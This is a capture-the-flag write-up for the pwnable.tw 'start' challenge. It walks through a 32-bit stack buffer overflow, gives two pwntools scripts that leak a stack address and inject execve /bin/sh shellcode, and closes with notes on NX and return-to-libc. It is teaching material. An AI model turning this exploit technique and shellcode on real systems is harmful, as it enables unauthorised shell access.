




# Start

Just a start.

Don't know how to start? Check GEF 101 - Solving pwnable.tw/start by @_hugsy

`nc chall.pwnable.tw 10000` [start](http://ctf.infury.org:8000/files/e97d02782974fbf2339f36fdc68b2317/start)

## WP

Connect to the server, we can get a string `Let's start the CTF:`, and then the program will wait for us to input.



Open the executable file in disassembler and we can see the x86 assembly source code of a function `_start()`.



From the instruction `0x0804806e` to `0x08048082`, the program pushed 20 bytes into the stack, and this is the string `Let's start the CTF:` that is printed later.

Instruction `0x08048087` to `0x0804808f` prints the string of 20 bytes onto the screen. In this process, `int 0x80` has the function similar to the `syscall` in MIPS, `ecx` represents the start address of the string, `dl` represents the number of bytes that should be printed, `bl` represents where should the bytes be printed to and `al` represents the function that should be executed when `int 0x80` is executed.

Similarly, instruction `0x08048091` to `0x08048097` reads 60 bytes and put them into the stack. However, there is only 20 bytes in the stack (the space that originally store the string `Let's start the CTF:`) that can be used as buffer to keep the user input.

What's worse, right after the buffer (`var_8`) stores the return address of `_start`. This means once we overflow the buffer, we can control the return address of `_start`.

We use payload `b'a' * 20 + b'\x87\x80\x04\x08'` to let PC jump to `mov ecx esp` after `_start` is finished. Because this time `esp` has already been pointing at `var_4`. (It's not `var_8` because after `retn`, `esp` will automatically move to the upper element in stack, I guess.)

```python
from pwn import *

conn = remote("chall.pwnable.tw", 10000)
print(conn.recv(20).decode(), end='')

shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

payload = b'a' * 20 + b'\x87\x80\x04\x08'
print(payload)
conn.send(payload)
pre_esp = conn.recv(20)
print(pre_esp)
conn.interactive()
```

Then the program will print the value of `var_4`, which is the value of `esp` when the instruction of address `0x08048060` was executed. This address is right before `var_4`, and this is the address we want.



Then we can use the same trick of buffer overflow to input the address and shell code into the **data memory**. Since `add esp 0x14` will be executed again, we still need to use `'a' * 20` to fill the unused space and use `var_4 + 0x14` as the destination address (this is because we have padded `'a' * 20`).  

Then we will enter a shell code in normal order. This is because when memory receives users' byte input, it will not change its order if it's little-endian, and the move direction of PC in memory is from lower address to higher address.

```python
from pwn import *

conn = remote("chall.pwnable.tw", 10000)
print(conn.recv(20).decode(), end='')

shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

payload = b'a' * 20 + b'\x87\x80\x04\x08'
print(payload)
conn.send(payload)
pre_esp = conn.recv(20)
print(pre_esp)

pre_esp = u32(pre_esp[0:4])

payload = b'a' * 20 + p32(pre_esp + 0x14) + shellcode
conn.send(payload)
print(payload)
print('>>>>Shell Opened<<<<')
conn.interactive()
```

After that, **we will lead the PC into data memory and let it execute the shell code in data memory**. Then we can get the shell of the target server and get the flag.




## Postscript

The usual methodology of PWN is putting the code we want into the memory and let the program to run it.

Usually this is done by buffer overflow, when the user input is not strictly checked or limited.

Since the user input is stored in data memory, so we will usually let PC jump into data memory and execute the shell code, i.e. bad instructions stored in data memory (instead of instruction memory).

To cope with this type of attack, there is one method called NX (Non-Executable Memory).

Data memory is used for only read and write in most cases. While in attack cases, data memory may contain instructions that are inputted by user and executed for attack purpose as we mentioned before. NX can keep the memory storing data non-executable, and in that case, this part of memory can still store the data perfectly but bad instructions can no longer be executed.

If NX is applied, we may choose some other methods instead of simply inputting shell codes and execute it, return-to-libc attack, for example.